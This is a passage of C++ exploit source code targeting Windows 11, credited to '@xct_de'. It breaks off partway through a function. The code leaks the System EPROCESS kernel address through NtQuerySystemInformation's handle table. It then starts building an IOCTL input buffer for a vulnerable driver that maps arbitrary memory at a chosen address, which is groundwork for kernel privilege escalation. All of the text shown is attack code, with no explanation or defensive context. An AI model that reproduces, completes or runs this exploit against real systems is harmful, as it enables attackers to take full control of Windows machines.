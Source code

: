 ```cpp
#include "windows.h"
#include <stdio.h>

// Author: @xct_de
// Target: Windows 11 (10.0.22000)

#define QWORD ULONGLONG
#define IOCTL_01 0x9C406500

#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2

using fNtQuerySystemInformation = NTSTATUS(WINAPI*)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );

typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO {
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, * PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef NTSTATUS(NTAPI* _NtQueryIntervalProfile)(
    DWORD ProfileSource,
    PULONG Interval
);

QWORD getSystemEProcess() {
    ULONG returnLenght = 0;
    fNtQuerySystemInformation NtQuerySystemInformation = (fNtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"ntdll"), "NtQuerySystemInformation");
    PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);
    NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLenght);
    SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[0];
    return (QWORD)handleInfo.Object;
}

QWORD mapArbMem(QWORD addr, HANDLE hDriver) {
    DWORD index = 0;
    DWORD bytesWritten = 0;
    LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    QWORD* in = (QWORD*)((QWORD)uInBuf);
    *(in + index++) = 0x4141414142424242;
    *(in + index++) = 0x4343434300001000; // size
    *(in + index++) = addr;               // addr

```